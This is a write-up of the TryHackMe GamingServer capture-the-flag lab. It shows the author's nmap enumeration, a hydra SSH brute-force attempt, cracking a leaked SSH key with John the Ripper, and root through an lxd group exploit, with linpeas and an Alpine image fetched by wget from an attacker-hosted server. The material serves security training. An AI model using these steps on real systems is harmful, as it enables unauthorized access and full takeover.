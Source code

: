 ```yaml
---
permalink: /GamingWriteup.html
---
```


## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```
nmap -sC -sV -v -oA gamingserver *machine_ip*
```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```
hydra -l john -P *path to wordlist* *machine_ip* ssh
```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

!(image)[https://i.imgur.com/FYrdjNd.png]

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```
chmod 600 SecretKey
```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

<img src=https://i.imgur.com/BoiE8ui.png/>

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!.
First i used ssh2john to format the key into something john the ripper can read.

```
/usr/share/john/ssh2john.py SecretKey > keyhash
```
Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```
john keyhash -w=dict.lst
```

Boom! Found it!

<img src=https://i.imgur.com/gvMwN2e.png/>

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```
ssh -i SecretKey john@machine_ip
```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

<img src=https://i.imgur.com/QWbXKr5.png/>

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```
*ATTACKER MACHINE* sudo python3 -m http.server
```

Then we download the script on the victim machine

```
*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh
```
From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

<img src=https://i.imgur.com/ZcRVxi2.png/>

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

<img src=https://i.imgur.com/blIf2iY.png/>

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

<img src=https://i.imgur.com/uEVyjAm.png/>

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.



